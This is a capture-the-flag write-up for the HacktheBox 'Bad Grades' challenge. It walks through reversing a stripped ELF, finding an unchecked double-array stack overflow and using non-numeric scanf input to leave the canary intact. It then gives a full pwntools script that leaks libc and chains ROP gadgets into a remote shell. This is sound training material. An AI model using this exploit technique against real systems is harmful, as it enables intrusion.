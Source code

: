 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Bad_Grades
---
```


# HacktheBox Bad Grades Write-up

Check the file type:
```
└─$ file bad_grades 
bad_grades: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b60153cf4a14cf069c511baaae94948e073839fe, stripped
```

Check the securities:
```
└─$ checksec --file=bad_grades 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols	  No	0		1		bad_grades
```

When we run the program, we are asked if we would like to view grades or add grades. ```
Your grades this semester were really good BAD!

1. View current grades.
2. Add new.
> 
```

If we select view current grades, it echoes some text back.
```
Your grades this semester were really good BAD!

1. View current grades.
2. Add new.
> 1

Your grades were: 
2
4
1
3
0

You need to try HARDER!
```

If we select add new, we are asked how many grades. Then we enter the grades and the average is echoed back.
```
Your grades this semester were really good BAD!

1. View current grades.
2. Add new.
> 2
Number of grades: 3
Grade [1]: 1
Grade [2]: 2
Grade [3]: 3
Your new average is: 2.00
```

## Reversing

Since the binary is stripped, it will be a little harder to reverse. We know the text that is output to the screen, so we can search the symbol tree for a function that displays said text.
```c
undefined8 FUN_00401108(void)

{
  long in_FS_OFFSET;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  FUN_00400ea6();
  printf("Your grades this semester were really ");
  FUN_00400acb(&DAT_004013d7,"green","deleted");
  FUN_00400acb(" BAD!\n",&DAT_004012ba,"blink");
  printf("\n1. View current grades.\n2. Add new.\n> ");
  __isoc99_scanf(&DAT_0040137e,&local_14);
  if (local_14 == 1) {
    FUN_00400f1a();
  }
  else {
    if (local_14 != 2) {
      puts("Invalid option!\nExiting..");
                    /* WARNING: Subroutine does not return */
      exit(9);
    }
    FUN_00400fd5();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Looks like we found ```main```. Nothing of interest here, but if we navigate to the function for choice 2, we can see the add new grades function.
```c
void FUN_00400fd5(void)

{
  long in_FS_OFFSET;
  int local_128;
  int local_124;
  double local_120;
  double local_118 [33];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_120 = 0.0;
  FUN_00400acb(0,"Number of grades: ",&DAT_004012d8,&DAT_00401304);
  __isoc99_scanf(&DAT_0040137e,&local_128);
  for (local_124 = 0; local_124 < local_128; local_124 = local_124 + 1) {
    printf("Grade [%d]: ",(ulong)(local_124 + 1));
    __isoc99_scanf(&DAT_0040138e);
    local_120 = local_118[local_124] + local_120;
  }
  printf("Your new average is: %.2f\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Here we find a buffer overflow. When we are prompted for the number of grades, that number is used as the constraint for the for loop that loads in our grades. The for loop does not check the size of the buffer at any point. The tricky part is, is that the buffer is a ```double``` type, meaning we need to find a way to convert hex addresses into doubles. To do this we can use the ```struct.unpack``` module and the ```binascii.unhexlify``` module.
```python
def hex_to_double(hex_string):
    hex_string = p64(hex_string).hex() # Pack the address with a 64 bit packer and convert to hex   
    return str(struct.unpack('d', binascii.unhexlify(hex_string))).strip('(),')
```
## Pwn

Now we need to figure out how to bypass the canary. An interesting tidbit about ```scanf``` is that it will parse your input for the first instance of the data type specified in the format specifier. If it doesn't find a matching data type, it won't read any data into the buffer. So if we use any non-numeric character when inputing our grades, the canary will remain unmodified. Once we pass the canary on the stack, we can being inputing values to overwrite addresses.

The tricky part is calculating the offset to ```rip```. The array being read into is type ```double```, so each input will be 8 bytes. Since the array has 33 elements, the buffer is 8 * 33 = 264 bytes long. To find out how many more to ```rip```, we need to find the stack offset in the disassembly. For this I am using radare2 since it seems to give more accurate stack layouts. According to radare2, the buffer is ```0x110``` bytes from the saved base pointer, so ```rip``` should be ```0x110``` + 8 = 280 bytes.

Now our offset is 280 / 8 = 35 doubles. So everytime we craft a rop chain, we need 35 entries to reach out pointer. 

We can now craft our exploit.
```python
#!/usr/bin/env python3

from pwn import *
import binascii
import struct

# Buffer is double buffer[33] = 264 bytes long
# Address of buffer is 0x110 + 8 = 288 bytes away from rip
# 288 / 8 = 35 numbers from rip

# Useful Gadgets
pop_rdi       = 0x0000000000401263 # pop rdi; ret;
ret           = 0x0000000000400666# ret;
# Useful Addresses
puts_plt      = 0x00400680
puts_got      = 0x00601fa8
vuln_func     = 0x00400fd5
shell_offset  = 0x1b3e1a
system_offset = 0x000000000004f550

def hex_to_double(hex_string):
    hex_string = p64(hex_string).hex() # Pack the address with a 64 bit packer and convert to hex   
    return str(struct.unpack('d', binascii.unhexlify(hex_string))).strip('(),') # Need to make sure to use p64() to convert to little endian // format 'd' is for little endian, format '!d' is for big endian 

def main():
    context.arch = 'amd64'

    elf = ELF("./bad_grades")
    libc = ELF("./libc.so.6")

    target = remote("46.101.94.35", 30857)
    target.sendlineafter(b"> ", b"2")
    target.sendlineafter(b"Number of grades: ", b"43")

    for i in range(35):
        target.sendline(".")

    # Print newline
    target.sendline(hex_to_double(pop_rdi))
    target.sendline(hex_to_double(next(elf.search(b""))))
    target.sendline(hex_to_double(puts_plt)) 

    # Leak libc address 
    target.sendline(hex_to_double(pop_rdi))
    target.sendline(hex_to_double(puts_got))
    target.sendline(hex_to_double(puts_plt))
    
    # Return to vulnerable function for next rop chain
    target.sendline(hex_to_double(ret))
    target.sendline(hex_to_double(vuln_func))
    
    # Skip two newlines 
    target.recvline()
    target.recvline()

    # Retrieve puts address and calculate libc address
    leak = u64(target.recvline().strip().ljust(8, b'\x00'))
    server_libc_base_addr = leak - libc.symbols['puts']
    log.info(f"Server libc base address: {server_libc_base_addr}")
    libc.address = server_libc_base_addr

    target.sendlineafter(b"Number of grades: ", b"39")

    for i in range(35):
        target.sendline(".")

    # rop chain to call system
    target.sendline(hex_to_double(ret))
    target.sendline(hex_to_double(pop_rdi))
    target.sendline(hex_to_double(server_libc_base_addr + shell_offset))
    target.sendline(hex_to_double(server_libc_base_addr + system_offset)) 
    
    target.interactive()

if __name__=='__main__':
    main()
```

Running this on the remote server yields us our shell.

Et Voila!
